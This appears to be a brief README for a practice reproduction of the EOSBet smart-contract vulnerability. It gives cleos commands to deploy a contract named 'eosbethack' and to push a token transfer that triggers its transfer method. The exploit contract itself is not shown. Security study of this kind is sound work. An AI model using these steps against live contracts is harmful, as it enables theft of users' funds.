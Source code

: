 # Introduction(简介)
eosbet合约漏洞实践

# Operation(操作)
```
cleos set contract contractaccount eosbethack
//下面的EOS转账会调用contractaccount这个智能合约的transfer方法
cleos push action eosio.token transfer '["testaccount", "contractaccount", "3.0000 EOS", "50-invitor"]' -p testaccount
```
